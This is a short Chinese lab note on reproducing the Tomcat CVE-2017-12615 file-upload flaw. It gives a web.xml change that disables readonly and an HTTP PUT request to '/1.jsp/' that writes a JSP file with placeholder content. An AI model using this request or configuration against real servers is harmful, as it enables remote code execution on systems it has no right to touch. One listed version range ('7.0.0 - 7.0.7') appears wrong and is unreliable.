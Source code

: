# tomcat远程命令执行漏洞(CVE-2017-12615)
###  tomcat 下载地址
`https://archive.apache.org/dist/tomcat/`
### 受影响版本
>
> `CVE-2017-12616影响范围：Apache Tomcat 7.0.0 - 7.0.80`
>
> `CVE-2017-12615影响范围：Apache Tomcat 7.0.0 - 7.0.7`


> CVE-2017-12615漏洞利用需要在Windows环境，且需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x版本内web.xml配置文件内默认配置无readonly参数，需要手工添加，默认配置条件下不受此漏洞影响。
> 
>
### tomcat安装目录下`conf`文件夹下`web.xml`文件中，添加如下代码
```angular2
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```

### Payload(CVE-2017-12615)
```
PUT /1.jsp/ HTTP/1.1
Host: 10.2.7.16:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 3

sss
```

> 注：默认安装不存在此漏洞，